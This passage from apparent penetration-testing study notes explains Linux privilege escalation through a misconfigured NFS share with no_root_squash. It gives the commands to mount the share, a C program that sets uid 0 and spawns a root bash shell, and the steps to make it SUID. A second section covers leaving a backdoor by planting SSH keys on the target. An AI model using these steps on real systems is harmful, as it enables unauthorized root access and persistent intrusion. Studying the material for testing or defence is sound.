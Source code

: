 Another vector could be a misconfigured network shell. NFS (Network File Sharing) configuration is kept in the `/etc/exports` file, this file is created during the NFS server installation and can usually be read by users.
The critical element for this privilege escalation is the `no_root_sqash` option. By default, NFS will change the root user to `nfdnobody` and strip any file from operating with root privileges. But if the `no_root_squash` option is present on a writable share, we can create an executable with the SUID bit set and run it on the target system.

We can now start by enumerating mountable shares from our attacking machine like so
```sh
showmount -e TargetIP
```
We will then mount one of the `no_root_squash` shares to our attacking machine and start building an executable (ej with a share `/tmp`)
```sh
mkdir /hacker/folder
```
```sh
mount -o rw TargetIP:/tmp /hacker/folder
```
Essentially we are creating a new directory on our attacking machine to then link that directory with the `/tmp` one inside the target machine with read-write permissions, so if we create an executable on our machine it will appear on the target as well. From here we can try a C code to open a shell. (nfs.c)
```c
void main(){
setuid(0);
setgid(0);
system("/bin/bash");
}
```
To then compile it and set the SUID bit
```sh
gcc nfs.c -o nfs -w
chmod +s nfs
```
And finally run it in the target machine to gain a shell with root.

## Backshoting
Once we are inside a system, we can try to to leave a backdoor behind in order to come back another time.
### SSH keys
If login with [[Cryptography#SSH Authentication|SSH keys]] is enabled for users but a key is not already in place for them we can add create our own pair of keys and leave the public key in the target machine for us to quickly come later and with a stable shell. By creating a key in our machine with 
```sh
ssh-keygen
```
to then either copy the public key manually into `authorized keys` with `cat`, transferring the public key file into the `~/.ssh` folder or use
```sh
ssh-copy-id -i [privatekey] user@host
```
for it to automatically add the corresponding public key to the user in the target machine. And finally we can enter at any time with
```sh
ssh -i [privatekey] user@host
```
